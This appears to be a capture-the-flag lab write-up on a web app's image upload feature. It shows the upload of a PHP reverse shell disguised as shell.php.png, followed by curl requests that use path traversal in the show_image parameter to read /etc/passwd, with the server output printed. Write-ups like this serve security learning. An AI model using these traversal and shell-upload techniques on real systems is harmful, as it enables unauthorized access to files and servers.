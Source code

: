 Blogs is not very interactive. However, uploads lets us upload image files only.

In burp, a little exploration shows we can upload any file that ends in a .jpg or .png or other image extension.
Trying to upload rev shell with name shell.php.png result is an image display error:

![20230704162551.png](images/20230704162551.png)
After trying a few things, looking back in burpsuite or `curl` we see that our injected code is reflected back to us:

```bash
$ curl -v http://10.10.11.204:8080/show_image?img=shell.php.png
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> GET /show_image?img=shell.php.png HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 
< Accept-Ranges: bytes
< Content-Type: image/jpeg
< Content-Length: 5493
< Date: Tue, 04 Jul 2023 20:24:18 GMT
< 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

```

So, the reason it doesn't show in firefox browser is because the header content-type describes image/jpeg, then the data described is plaintext. The browser tries to display an image from the information, which obviously doesn't work.

The image url is very interesting, as it might allow for directory traversal, leading to unintended file reads: `http://10.129.34.82:8080/show_image?img=shell.php.png`. Looking for /etc/passwd:
```bash
$ curl -v http://10.10.11.204:8080/show_image?img=../../../../../../etc/passwd
*   Trying 10.10.11.204:8080...
* Connected to 10.10.11.204 (10.10.11.204) port 8080 (#0)
> GET /show_image?img=../../../../../../etc/passwd HTTP/1.1
> Host: 10.10.11.204:8080
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 
< Accept-Ranges: bytes
< Content-Type: image/jpeg
< Content-Length: 1986
< Date: Tue, 04 Jul 2023 20:28:36 GMT
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```